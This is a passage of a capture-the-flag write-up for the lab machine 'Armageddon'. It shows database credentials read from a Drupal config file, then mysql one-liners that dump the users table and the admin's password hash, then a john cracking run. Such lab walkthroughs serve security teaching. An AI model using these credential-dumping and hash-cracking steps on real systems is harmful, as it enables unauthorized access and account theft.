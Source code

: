 ```php
      'password' => 'CQHEy@9M*m23gBVj',                                                                               
      'host' => 'localhost',                                                                                          
      'port' => '',                                                                                                   
      'driver' => 'mysql',                                                                                            
      'prefix' => '',                                                                                                 
    ),                                                                                                                
  ),                                                                                                                  
);      
```
Now we can try to log in into mysql db. The problem is that since we do not have a fully working tty we cannot get any mysql prompt.  
We need to try to execute queries using a one liner command:  
```bash
armageddon.htb>> mysql -u drupaluser --password='CQHEy@9M*m23gBVj' -e 'show databases;'                                  
Database
information_schema
drupal
mysql
performance_schema
armageddon.htb>> mysql -D drupal -u drupaluser --password='CQHEy@9M*m23gBVj' -e 'show tables';
[... SNIP ...]
users
[... SNIP ...]
armageddon.htb>> mysql -D drupal -u drupaluser --password='CQHEy@9M*m23gBVj' -e 'describe users';
Field   Type    Null    Key     Default Extra
uid     int(10) unsigned        NO      PRI     0
name    varchar(60)     NO      UNI
pass    varchar(128)    NO
mail    varchar(254)    YES     MUL
theme   varchar(255)    NO
signature       varchar(255)    NO
signature_format        varchar(255)    YES             NULL
created int(11) NO      MUL     0
access  int(11) NO      MUL     0
login   int(11) NO              0
status  tinyint(4)      NO              0
timezone        varchar(32)     YES             NULL
language        varchar(12)     NO
picture int(11) NO      MUL     0
init    varchar(254)    YES
data    longblob        YES             NULL
armageddon.htb>> mysql -D drupal -u drupaluser --password='CQHEy@9M*m23gBVj' -e 'SELECT name,mail,pass FROM users';
name    mail    pass

brucetherealadmin       admin@armageddon.eu     $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
As we can see we managed to gather `brucetherealadmin` password hash.  
Now we can try to crack this hash using `john`:
```bash
[root@kali Armageddon ]$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt                                                
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 32768 for all loaded hashes
```